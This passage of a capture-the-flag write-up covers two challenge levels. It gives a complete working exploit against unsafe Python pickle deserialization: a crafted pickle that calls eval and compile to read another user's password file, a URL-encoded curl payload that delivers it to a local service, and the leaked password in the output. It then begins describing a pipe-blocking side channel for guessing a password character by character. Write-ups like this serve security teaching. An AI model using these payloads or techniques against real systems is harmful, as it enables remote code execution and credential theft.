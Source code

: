     parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)

    match = parser.match(serialized)
    job = match.group(3)
    #result = pickle.loads(job)
    print pickletools.dis(job)
    print urllib.quote(content)

eval.py
-------

    #!/usr/bin/env python

    jobs = __import__("os").listdir("/tmp/level05/jobs")

    password = open("/home/level06/.password").read()

    pickle_data = "ccopy_reg\n_reconstructor\np0\n(c__main__\nJob\np1\nc__builtin__\nobject\np2\nNtp3\nRp4\n(dp5\nS'started'\np6\nF1330126182.060731\nsS'completed'\np7\nF1330126182.060732\nsS'id'\np8\nS'lols'\np9\nsS'created'\np10\nF1330126182.06073\nsb."


    serialized = "type: RESULT; data: %s; job: %s" % (password, pickle_data)

    for job in jobs:
      open("/tmp/level05/results/%s" % (job), "w").write(serialized)


Running:

    level05@ctf6:/tmp/tmp.MHtXlXe9NB$ curl localhost:9020 -d
    "hello%20friend%3B%20job%3A%20c__builtin__%0Aeval%0A%28c__builtin__%0Acompile%0A%28S%27%23%21/usr/bin/env%20python%5Cn%5Cnjobs%20%3D%20__import__%28%22os%22%29.listdir%28%22/tmp/level05/jobs%22%29%5Cn%5Cnpassword%20%3D%20open%28%22/home/level06/.password%22%29.read%28%29%5Cn%5Cnpickle_data%20%3D%20%22ccopy_reg%5C%5Cn_reconstructor%5C%5Cnp0%5C%5Cn%28c__main__%5C%5CnJob%5C%5Cnp1%5C%5Cnc__builtin__%5C%5Cnobject%5C%5Cnp2%5C%5CnNtp3%5C%5CnRp4%5C%5Cn%28dp5%5C%5CnS%27started%27%5C%5Cnp6%5C%5CnF1330126182.060731%5C%5CnsS%27completed%27%5C%5Cnp7%5C%5CnF1330126182.060732%5C%5CnsS%27id%27%5C%5Cnp8%5C%5CnS%27lols%27%5C%5Cnp9%5C%5CnsS%27created%27%5C%5Cnp10%5C%5CnF1330126182.06073%5C%5Cnsb.%22%5Cn%5Cn%5Cnserialized%20%3D%20%22type%3A%20RESULT%3B%20data%3A%20%25s%3B%20job%3A%20%25s%22%20%25%20%28password%2C%20pickle_data%29%5Cn%5Cnfor%20job%20in%20jobs%3A%5Cn%20%20open%28%22/tmp/level05/results/%25s%22%20%25%20%28job%29%2C%20%22w%22%29.write%28serialized%29%5Cn%5Cn%5Cn%27%0AS%27die%27%0AS%27exec%27%0AtRtR."
    {
       "processing_time": 9.5367431640625e-07,
       "queue_time": 233.4059009552002,
       "result": "SF2w8qU1QDj\n"
    }

#Level 06


In linux after and you write 65536 bytes to a pipe without reading any bytes further writes will block. 

Using this we can test whether the last character in a password is correct. Say we have a password 'CCCU' where 'C' is a correct character and 'U' is an unknown character. We then extend this password with a sentinel character. The sentinel prevents the level06 program from printing an incorrect message due to the length check that is performed when the end of the guess is reached. I used the '\1' character for this. Now the password to check is 'CCCU\1'.
